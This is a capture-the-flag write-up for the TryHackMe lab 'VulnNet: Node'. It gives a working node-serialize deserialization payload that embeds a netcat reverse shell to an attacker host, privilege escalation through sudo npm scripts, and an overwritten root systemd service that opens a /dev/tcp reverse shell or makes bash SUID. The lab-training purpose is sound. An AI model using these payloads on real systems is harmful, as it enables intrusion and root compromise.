

# VulnNet: Node

| | |
|---|---|
| **Platform** | TryHackMe |
| **Difficulty** | Easy |
| **URL** | https://tryhackme.com/room/vulnnetnode |
| **Focus** | Node.js deserialization RCE (CVE-2017-5941) → sudo npm → writable systemd service |

---

## Port Scan `[RECON]`

rustscan is a fast port scanner that passes open ports to nmap for service detection.

```bash
rustscan -a <TARGET_IP> -- -sC -sV

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13
8080/tcp open  http    Node.js Express framework
```

Two services exposed: SSH and a Node.js Express application on port 8080.

---

## Web Enumeration `[ENUMERATION]`

feroxbuster performs recursive content discovery against the web application.

```bash
feroxbuster -u http://<TARGET_IP>:8080/ \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -x html,php,txt,js,json,bak \
  --extract-links --scan-limit 2 --filter-status 401,403,404,405,500

/login
```

| Switch | Description |
|--------|-------------|
| `-x` | File extensions to append to each wordlist entry |
| `--extract-links` | Parse discovered pages for additional links to scan |
| `--scan-limit` | Maximum number of concurrent scans |
| `--filter-status` | HTTP status codes to exclude from results |

Only `/login` discovered as a notable endpoint.

---

## Session Cookie Inspection `[ENUMERATION]`

The application sets a session cookie on the first request. Extracting it with curl reveals its structure.

```bash
curl -I http://<TARGET_IP>:8080/ | grep "Set-Cookie"

Set-Cookie: session=eyJ1c2VybmFtZSI6Ikd1ZXN0[...]; Max-Age=1200; Path=/; HttpOnly
```

URL-decoding `%3D%3D` → `==` and decoding from Base64:

```bash
echo "eyJ1c2VybmFtZSI6Ikd1ZXN0[...]" | base64 -d

{"username":"Guest","isGuest":true,"encoding": "utf-8"}
```

The cookie contains a user-controlled JSON object. The server deserializes it without validation using the `node-serialize` package — RCE vector via CVE-2017-5941.

---

## Deserialization Payload Construction `[EXPLOITATION]`

`node-serialize` uses `eval()` internally. Any value prefixed with `_$$ND_FUNC$$_` followed by a function with `()` at the end (IIFE) is executed automatically at deserialization time.

Payload with a reverse shell via named pipe, encoded to Base64:

```bash
echo -n '{"username":"_$$ND_FUNC$$_function(){require('"'"'child_process'"'"').exec('"'"'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKER_IP> 4545 >/tmp/f'"'"')}()","isGuest":true,"encoding":"utf-8"}' | base64 -w 0
```

| Switch | Description |
|--------|-------------|
| `-w 0` | Disables automatic line wrapping at 76 characters — required to keep the cookie value intact |

---

## Shell via Malicious Cookie `[EXPLOITATION]`

Start listener on attacker:

```bash
nc -lvnp 4545
```

Send the cookie with the encoded payload:

```bash
curl -s http://<TARGET_IP>:8080/ -H "Cookie: session=<BASE64_PAYLOAD>"
```

Shell received as `www`. Stabilize:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
export SHELL=bash
# Ctrl+Z
stty raw -echo; fg
```

```bash
id

uid=1001(www) gid=1001(www) groups=1001(www)
```

---

## Lateral Movement to serv-manage via sudo npm `[PRIVESC]`

Checking sudo permissions for the current user:

```bash
sudo -l

(serv-manage) NOPASSWD: /usr/bin/npm
```

Create a working directory and exploit via `package.json` scripts:

```bash
mkdir /tmp/privesc && cd /tmp/privesc
```

**Option A — npm run:**

```bash
echo '{"scripts":{"shell":"bash"}}' > package.json
sudo -u serv-manage npm run shell --unsafe-perm=true
```

**Option B — npm install with preinstall hook:**

```bash
echo '{"scripts":{"preinstall":"/bin/bash"}}' > package.json
sudo -u serv-manage /usr/bin/npm install
```

```bash
id

uid=1000(serv-manage) gid=1000(serv-manage) groups=1000(serv-manage)
```

`npm` executes `scripts` entries as child processes with the privileges of the invoking user. Both options are documented in GTFOBins under the `sudo` category.

---

## Writable systemd Service Identification `[PRIVESC]`

```bash
sudo -l

(root) NOPASSWD: /bin/systemctl start vulnnet-auto.timer
(root) NOPASSWD: /bin/systemctl stop vulnnet-auto.timer
(root) NOPASSWD: /bin/systemctl daemon-reload
```

```bash
ls -l /etc/systemd/system/vulnnet-job.service

-rw-rw-r-- 1 root serv-manage 197 Jan 24 2021 /etc/systemd/system/vulnnet-job.service
```

```bash
cat /etc/systemd/system/vulnnet-auto.timer

[Timer]
OnBootSec=0min
OnCalendar=*:0/30
Unit=vulnnet-job.service
```

The timer triggers `vulnnet-job.service` immediately at boot and every 30 minutes. The `.service` file is writable by `serv-manage` and runs as root.

---

## Privilege Escalation to root via Writable systemd Service `[PRIVESC]`

**Option A — Reverse shell:**

Start listener on attacker:

```bash
nc -lvnp 4646
```

Overwrite the service file:

```bash
cat > /etc/systemd/system/vulnnet-job.service << 'EOF'
[Unit]
Description=VulnNet Job

[Service]
Type=oneshot
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP>/4646 0>&1'

[Install]
WantedBy=multi-user.target
EOF
```

**Option B — SUID on /bin/bash:**

```bash
cat > /etc/systemd/system/vulnnet-job.service << 'EOF'
[Unit]
Description=VulnNet Job
Wants=vulnnet-auto.timer

[Service]
Type=forking
ExecStart=/bin/chmod u+s /bin/bash

[Install]
WantedBy=multi-user.target
EOF
```

After SUID is applied:

```bash
/bin/bash -p
```

**Reload and activate the timer (both options):**

```bash
sudo /bin/systemctl stop vulnnet-auto.timer
sudo /bin/systemctl daemon-reload
sudo /bin/systemctl start vulnnet-auto.timer
```

```bash
id

uid=0(root) gid=0(root) groups=0(root)
```

---

## Attack Chain



---

## Key Concepts

**Insecure deserialization (CVE-2017-5941).** Serialization converts an in-memory object into a byte sequence for storage or transmission — deserialization does the reverse. The vulnerability arises when user-controlled data is deserialized without validation. The `node-serialize` package uses `eval()` internally to reconstruct functions: any value prefixed with `_$$ND_FUNC$$_` is evaluated as JavaScript. If the function includes `()` at the end (IIFE — Immediately Invoked Function Expression), it executes automatically at deserialization time, before the application processes the object.

**sudo over npm.** `npm run` and `npm install` execute commands defined in the `scripts` field of `package.json` as child processes. If a user can invoke `npm` as another user via `sudo`, they control what commands that user runs — including a shell. Documented in GTFOBins under the `sudo` category.

**Writable systemd service abuse.** systemd is the modern Linux init and service manager (PID 1). `.timer` units are the systemd equivalent of cron — they trigger `.service` units on a schedule. If a `.service` file executed by a root-owned timer is writable by an unprivileged user, modifying its `ExecStart` field gives arbitrary code execution as root on the next cycle. The `stop` / `daemon-reload` / `start` sequence forces systemd to re-read the modified file before execution.

---

## Lessons Learned

- Cookies containing serialized JSON objects are immediate candidates for insecure deserialization — always decode Base64 and inspect the content before looking for other vectors.
- `sudo` over package managers (`npm`, `pip`, `gem`) is equivalent in practice to arbitrary code execution — treat them as `sudo bash`.
- Writable systemd `.service` files are a direct escalation vector to root when `sudo` over `systemctl` is available. Always audit systemd unit file permissions during post-access enumeration.

